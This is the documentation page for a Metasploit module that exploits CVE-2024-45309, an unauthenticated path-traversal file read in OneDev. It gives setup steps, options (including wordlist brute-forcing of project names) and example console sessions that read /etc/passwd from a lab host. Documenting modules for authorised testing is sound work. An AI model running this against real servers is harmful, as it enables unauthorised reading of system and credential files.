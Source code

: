 ## Vulnerable Application

OneDev is a Git Server with CI/CD, kanban, and packages.
This module exploits an unauthenticated arbitrary file read vulnerability (CVE-2024-45309), which affects OneDev versions <= 11.0.8.
This vulnerability arises due to the lack of user-input sanitization of path traversal sequences `..` in the `ProjectBlobPage.java` file.

To exploit this vulnerability, a valid OneDev project name is required. If anonymous access is enabled on the OneDev server, any visitor
can view existing projects without authentication.
However, when anonymous access is disabled, an attacker who lacks prior knowledge of existing project names can use a brute-force approach.
By providing a user-supplied wordlist, the module may be able to guess a valid project name and subsequently exploit the vulnerability.

## Installation

OneDev provides docker images for a quick setup process.
A vulnerable version (`v11.0.8`) can be found [here](https://hub.docker.com/r/1dev/server/tags?name=11.0.8).

Installation instructions can be found [here](https://docs.onedev.io/).

## Verification Steps

1. Install the OneDev application
2. Start msfconsole
3. Do: `use auxiliary/gather/onedev_arbitrary_file_read`
4. Set the `RHOSTS` and `RPORT` options as necessary
5. Set the `TARGETFILE` option with the absolute path of the target file to read

If a valid project name is known:

6. Set the `PROJECT_NAME` option with the known project name
7. Do: `run`
8. If the file exists, the contents will be displayed to the user

If there is no information about existing projects:

6. Set the `PROJECT_NAMES_FILE` option with the absolute path of a wordlist that contains multiple possible values for a valid project name
7. Do: `run`
8. If a valid project name is found, the target file contents will be displayed to the user

## Options

### PROJECT_NAME
A valid OneDev project name is required to exploit the vulnerability. If anonymous access is enabled on the OneDev server,
any visitor can see the existing projects, and colllect a valid project name. On the other hand, if anonymous access is disabled,
the user needs to have previous knowledge of a valid project name or use the `PROJECT_NAMES_FILE` option to find one through brute force.

### PROJECT_NAMES_FILE
Absolute path of a wordlist containing multiple possible values for valid project names. Once this option is set,
the module will verify whether a given project exists for each word.


### TARGETFILE
Absolule file path of the target file to be retrieved from the OneDev server. Set as `/etc/passwd` by default.

### STORE_LOOT
If set as `true`, the target file contents will be stored as loot. Set as `false` by default.


## Scenarios

### Example: Known project name or anonymous access enabled on OneDev 11.0.8

```
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RHOSTS 192.168.1.10
RHOSTS => 192.168.1.10
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RPORT 6610
RPORT => 6610
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set PROJECT_NAME myproject
PROJECT_NAME => myproject
msf6 auxiliary(gather/onedev_arbitrary_file_read) > run
[*] Running module against 192.168.1.10

[+] Target file retrieved with success
[*] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin

[*] Auxiliary module execution completed

```

### Example:Uunknown projects with anonymous access disabled on OneDev 11.0.8
```
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RHOSTS 192.168.1.10
RHOSTS => 192.168.1.10
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set RPORT 6610
RPORT => 6610
msf6 auxiliary(gather/onedev_arbitrary_file_read) > set PROJECT_NAMES_FILE /home/server/wordlist.txt
PROJECT_NAMES_FILE => /home/server/wordlist.txt
msf6 auxiliary(gather/onedev_arbitrary_file_read) > run
[*] Running module against 192.168.1.10

[*] Brute forcing valid project name ...
[+] 192.168.1.10:6610 - Found valid OneDev project name: myproject
[+] Target file retrieved with success
[*] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin

[*] Auxiliary module execution completed

```
